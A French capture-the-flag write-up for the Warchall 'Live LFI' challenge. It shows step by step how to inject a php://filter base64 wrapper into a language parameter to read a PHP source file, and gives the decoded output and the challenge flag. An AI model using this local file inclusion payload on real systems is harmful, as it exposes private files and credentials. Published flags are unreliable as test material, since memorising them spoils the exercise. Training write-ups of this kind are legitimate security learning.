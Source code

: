 # Live LFI
Cette fois Live LFI Local File Inclusion, il y a des méthodes d'attaque de base NULL Byte Injection et path,
mais parmi les attaques appliquées, il y a une méthode d'attaque utilisant PHP Wrapper. Dans le cas de Warchall : Live LFI,
vous pouvez utiliser PHP Wrapper pour accéder au fichier en utilisant php://filter/convert.base64-encode/resource=solution.php

Le code "php://filter/convert.base64-encode/resource=solution.php" est une fonctionnalité de PHP qui permet de lire le contenu d'un fichier et de le convertir en base64.
Cela signifie que le contenu du fichier `solution.php` sera encodé en base64 avant d'être retourné.

En d'autres termes, si ce code est utilisé dans un contexte où une URL ou un chemin de fichier est attendu,
il peut être utilisé pour lire le contenu du fichier `solution.php` et le retourner sous forme encodée en base64.
Cela peut être utilisé pour contourner certaines restrictions d'accès aux fichiers ou pour manipuler le contenu des fichiers de manière non autorisée.

Etape à suivre : 
1. Allez dans le lien LFI (Local File Inclusion) principale => [LFI](https://lfi.warchall.net/)

2. Cliquer sur le logo de langue (choix de langue) => exemple : [LFI (langue)](https://lfi.warchall.net/index.php?lang=en)
3. Effacer `en`sur le lien et le *remplacer* par la methode d'attaque *PHP Wrapper* => `php://filter/convert.base64-encode/resource=solution.php`[lien complet](https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php)
4. après, il donne des plusieur code à decoder : **PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K**
5. Après decodage enligne sur [base64decode](https://www.base64decode.org/)
   
**Le resultat est là** : 

````sh<html>
<body>
<pre style="color:#000;">teh falg si naer!</pre>
<pre style="color:#fff;">the flag is near!</pre>
</body>
</html>
<?php                  #   YOUR_TROPHY 
return 'SteppinStones42Pie'; # <-´ ?>
````

 Solution : **SteppinStones42Pie**


